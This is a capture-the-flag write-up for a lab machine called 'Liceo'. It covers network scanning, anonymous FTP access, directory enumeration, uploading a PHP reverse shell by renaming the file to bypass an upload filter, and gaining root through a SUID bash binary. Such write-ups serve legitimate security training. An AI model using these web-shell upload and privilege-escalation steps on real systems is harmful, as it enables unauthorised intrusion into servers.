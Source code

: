 ```yaml
---
title: Liceo - Writeup
date: 2024-04-10
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
  - Ftp
  - File Upload
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.0.209 08:00:27:76:63:4b PCS Systemtechnik GmbH
```

# Ports

Starting with port scanning by using nmap

```bash
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:4c:42:8d:10:2c:61:56:7b:26:c4:78:96:6d:28:15 (ECDSA)
|_  256 7e:1a:29:d8:9b:91:44:bd:66:ff:6a:f3:2b:c7:35:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Liceo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:76:63:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We can see that 80, 22 and 21 ports are opened
# FTP

```shell
lftp 192.168.0.209
lftp 192.168.0.209:~> user anonymous
lftp anonymous@192.168.0.209:~> ls
-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
lftp anonymous@192.168.0.209:/> cat note.txt 
Hi Matias, I have left on the web the continuations of today's work, 
would you mind contiuing in your turn and make sure that the web will be secure? 
Above all, we dont't want intruders...
```

# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch  -u http://192.168.0.209/
[04:51:20] 301 -  316B  - /uploads  ->  http://192.168.0.209/uploads/  [04:51:20] 200 -  408B  - /uploads/                                    [04:51:21] 200 -  233B  - /upload.php
```

we can see there is a 'upload.php', which we can probably use for FIle Upload
## File upload

We can use the webshell from /usr/share/webshells/php/php-reverse-shell.php 

```shell
cp /usr/share/webshells/php/php-reverse-shell.php ~/
cp php-reverse-shell.php shell1.jpg
```

once we uploaded it, we use burp to change into 'shell1.phtml', which can be successfully uploaded.

![](/assets/img/Liceo/upload_file.png)

Then we access '/uploads/shell1.phtml' and then we can get a low shell.

Under /home/dev, we are able to get the user flag.


## Privilege Escalation

```shell
find / -user root -perm /4000 2>/dev/null
/usr/bin/bash
```

then we can do 

```shell
/usr/bin/bash -p
```

and we can get root permission

